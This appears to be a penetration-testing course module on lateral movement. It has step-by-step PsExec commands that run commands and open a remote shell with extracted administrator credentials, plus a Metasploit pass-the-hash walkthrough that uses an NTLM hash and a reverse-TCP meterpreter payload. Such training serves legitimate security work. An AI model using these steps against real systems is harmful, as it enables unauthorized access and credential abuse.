





## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux
- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Lateral Movement Techniques

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network. Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

The following is a list of key techniques and sub techniques that we will be exploring:

- Remote Services

- Alternate Authentication

Our objective is to utilize clear-text passwords and hashes that we extracted to facilitate lateral movement through legitimate authentication protocols/methods.

## Lateral Movement With PsExec

PsExec is a lightweight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software. PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IpConfig that otherwise do not have the ability to show information about remote systems.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

We will be running PsExec from our Windows VM as you may encounter a few issues when running PsExec on Linux with Wine.

Note: We will be utilizing the credentials we extracted from the Windows 10 target system in the Credential Access Video.

1. You can download PsExec from the following link: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

1. After downloading PsTools archive, you will need to extract it and open a Windows command prompt in the extracted folder.

1. We can execute a command on the target system with PsExec by specifying the computer name/IP address, username, and password. This can be done by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> ipconfig

    In this case, we will execute the ipconfig command on the target system in order to verify that we can authenticate successfully with PsExec.

    

    As highlighted in the preceding screenshot, PsExec authenticates with the target system, executes the ipconfig, and provides us with the output of the command.

1. Alternatively, we can also initiate a remote command prompt session with the target system by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> cmd.exe

    As highlighted in the following screenshot, we are able to authenticate successfully and obtain a remote command shell session on the target system.

    

    We can now utilize the remote command session to scan and ping for other hosts on the network that we can pivot to.

## Pass-the-Hash

If you weren’t able to extract any cleartext passwords from the target system, you can utilize the pass-the-hash Metasploit module that leverages PsExec in order to authenticate with SMB (Server Message Block) using a user account’s NTLM hash.

Pass-the-hash is a technique that is used by attackers to authenticate to a remote host by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password.

For this section, our target system will be running Windows 10. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

1. The first step will involve loading the SMB PsExec Metasploit module, this can be done by running the following command on the Kali terminal:

        use exploit/windows/smb/psexec

1. After loading the module, you will need to configure the module payload, this can be done by running the following command:

        set payload windows/x64/meterpreter/reverse_tcp

1. You will also need to set the SMBPass and SMBUser options with the NTLM hash and name of the user account. This can be done by running the following commands:

        set SMBUser <USERNAME>

    Note: In this case, we will be setting the “SMBUser” option to “Administrator”.

        set SMBPass <NTLM Hash>

1. Finally, you will need to set the target system IP address, this can be done by running the following command:

        set RHOSTS <TARGET-IP>

1. After configuring the options, we can execute the module by running the following command:

        run

1. If authentication is successful, you should receive a new meterpreter session with the privileges of the user you authenticated with as shown in the screenshot below.

    